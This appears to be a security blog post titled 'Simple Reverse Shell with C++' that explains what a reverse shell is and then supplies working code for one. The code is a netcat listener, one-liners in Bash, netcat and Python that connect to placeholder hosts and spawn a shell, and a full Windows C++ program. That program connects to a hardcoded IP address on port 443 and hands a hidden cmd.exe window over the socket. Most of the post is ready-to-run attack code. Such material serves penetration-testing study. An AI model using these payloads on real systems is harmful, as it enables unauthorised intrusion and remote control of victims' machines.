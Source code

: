 ```yaml
---
title: "Simple Reverse Shell with C++"
date: 2024-08-26 08:00:00 - 0500
categories: [Blogs, Knowledge]
tags: [c++, reverse shell, winsock2]
image: 
  path: /assets/img/posts/2024/reverse shell.jpg
---
```


 
## What is Reverse Shell? 

Reverse shell or often called connect-back shell is remote shell introduced from the target by connecting back to the attacker machine and spawning target shell on the attacker machine. This usually used during exploitation process to gain control of  the remote machine. 

![Reverse shell diagram](/assets/img/posts/2024/Rev Diagram.png){: width="972" height="589" }

A reverse shell is commonly used to bypass firewall restrictions that block incoming connections.

The target machine has a firewall that blocks incoming connections on most ports, but it may allow outbound connection. 

There is one more caveat. In real cyber attacks, the reverse shell can also be obtained through social engineering, for example, a piece of malware installed on a local workstation via a phishing email or a malicious website might initiate an outgoing connection to a command server and provide hackers with a reverse shell capability.

## Simple Reverse Shell 

First, set up a listener on your server. For simplicity, in this example, the victim allows outgoing connections on any port. In this case, use `9001` as the listener port. 

The listener can be any program or utility capable  of opening TCP/UDP connections or sockets, `nc` or `netcat` can be used for this purpose.

```bash
nc -lnvp 9001
```
{: .nolineno }

```bash
bash -c 'sh -i >& /dev/tcp/<ip addr>/9001 0>&1'
```
{: .nolineno }

![Reverse shell example](assets/img/posts/2024/Rev example.png){: width="972" height="589" }

This is a simple reverse shell in Bash. You can create a reverse shell with a semi-interactive shell using Python, as well as with other languages such as C/C++, PHP, etc.

```bash
mkfifo /tmp/p; nc <LHOST> <LPORT> 0</tmp/p | /bin/sh > /tmp/p 2>&1; rm /tmp/p
```
{: .nolineno }

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<LHOST>",<LPORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
{: .nolineno }


## Simple Reverse Shell with C++ for Windows

```c++
#ifndef WIN32_LEAN_AND_MEAN
#define WIN32_LEAN_AND_MEAN
#endif // !WIN32_LEAN_AND_MEAN
#include<Windows.h>
#include<WinSock2.h>
#include<WS2tcpip.h>
#include<stdio.h>

#pragma comment(lib, "Ws2_32.lib")

#define EXIT_SUCCESS 0
#define EXIT_FAILED 1 

int main()
{
	BYTE lowByte = 0x02; 
	BYTE highByte = 0x02; 
	WORD wVersionRequested = MAKEWORD(lowByte, highByte); 
	// Initialize winsock
	WSADATA wsaData; 
	int err = WSAStartup(wVersionRequested, &wsaData); 
	if (err != 0)
	{
#ifdef DEBUG
		printf("WSAStartup failed with error: %d\n", err); 
#endif // DEBUG
		return EXIT_FAILED; 
	}
	// Create socket
	SOCKET s = INVALID_SOCKET; 
	s = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0); 
	if (s == INVALID_SOCKET)
	{
#ifdef DEBUG
		printf("WSASocket function failed with error: %ld\n", WSAGetLastError());
#endif // DEBUG
		return EXIT_FAILED;
	}
	struct sockaddr_in serverAdrdr; 
	ZeroMemory(&serverAdrdr, sizeof(serverAdrdr)); 
	serverAdrdr.sin_family = AF_INET; 
	serverAdrdr.sin_port = htons(443); 
	inet_pton(AF_INET, "107.20.10.75", &serverAdrdr.sin_addr);
	// Connect to server
	if (WSAConnect(s, (struct sockaddr*)&serverAdrdr, sizeof(serverAdrdr), NULL, NULL, NULL, NULL) == SOCKET_ERROR)
	{
#ifdef DEBUG
		printf("Socket connection error: %ld\n", WSAGetLastError());
#endif // DEBUG
		closesocket(s);
		WSACleanup();
		return EXIT_FAILED;
	}

	// Create process
	char buffer[4096];
	STARTUPINFOA si{};
	PROCESS_INFORMATION pi{};
	while (true)
	{
		int receivedBytes = recv(s, buffer, sizeof(buffer), 0); 
		if (receivedBytes <= 0)
		{
#ifdef DEBUG
			printf("Connection closed.\n");
#endif // DEBUG
		}
		else
		{
#ifdef DEBUG
			printf("recv failed: %d\n", WSAGetLastError());
#endif // DEBUG
		}
		// Set up STARTUPINFO
		SecureZeroMemory(&si, sizeof(si));
		si.cb = sizeof(si); 
		si.dwFlags = STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW; 
		si.hStdInput = si.hStdOutput = si.hStdError = (HANDLE)s;
		si.wShowWindow = SW_HIDE;
		char kommand[] = "cmd.exe";
		if (!CreateProcessA(NULL, kommand, NULL, NULL, TRUE, CREATE_NO_WINDOW, NULL, NULL, &si, &pi))
		{
#ifdef DEBUG
			printf("CreateProcess failed: %d\n", GetLastError()); 
#endif // DEBUG
			break;
		}
		WaitForSingleObject(pi.hProcess, INFINITE);
		CloseHandle(pi.hProcess); 
		CloseHandle(pi.hThread); 
	}
	closesocket(s);
	// Call WSACleanup when done using the winsock dll
	WSACleanup(); 
	return EXIT_SUCCESS;
}
```
{: .nolineno }

## References 

[1] - [Reverse Shell cheatsheet - PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) <br>

[2] - [cocomelonc - Simple C++ reverse shell for windows](https://cocomelonc.github.io/tutorial/2021/09/15/simple-rev-c-1.html)